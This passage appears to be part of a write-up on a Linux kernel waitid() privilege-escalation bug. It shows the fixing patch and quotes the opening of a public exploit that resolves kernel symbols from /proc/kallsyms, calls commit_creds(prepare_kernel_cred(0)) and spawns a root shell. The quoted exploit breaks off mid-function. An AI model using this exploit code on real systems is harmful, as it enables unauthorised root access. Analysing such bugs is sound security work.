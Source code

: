 ```c
+	if (!access_ok(VERIFY_WRITE, infop, sizeof(*infop)))
+		goto Efault;
+
 	user_access_begin();
 	unsafe_put_user(signo, &infop->si_signo, Efault);
 	unsafe_put_user(0, &infop->si_errno, Efault);
```
Nowadays, it just fixed like above.

## Payload Analysis
Of course, by above vulnerability, we can trigger that with **several various ways** but let's see 'the orignal' first :)
[payload](https://www.exploit-db.com/exploits/43029/).

```c
#define _GNU_SOURCE
 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <string.h>
 
struct cred;
struct task_struct;
  
typedef struct cred *(*prepare_kernel_cred_t) (struct task_struct *daemon) __attribute__((regparm(3)));
typedef int (*commit_creds_t) (struct cred *new) __attribute__((regparm(3)));
  
prepare_kernel_cred_t   prepare_kernel_cred;
commit_creds_t    commit_creds;
  
void get_shell() {
  char *argv[] = {"/bin/sh", NULL};
  
  if (getuid() == 0){
    printf("[+] Root shell success !! :)\n");
    execve("/bin/sh", argv, NULL);
  }
  printf("[-] failed to get root shell :(\n");
}
  
void get_root() {
  if (commit_creds && prepare_kernel_cred)
    commit_creds(prepare_kernel_cred(0));
}
  
unsigned long get_kernel_sym(char *name)
{
  FILE *f;
  unsigned long addr;
  char dummy;
  char sname[256];
  int ret = 0;
  
  f = fopen("/proc/kallsyms", "r");
  if (f == NULL) {
    printf("[-] Failed to open /proc/kallsyms\n");
    exit(-1);
  }
```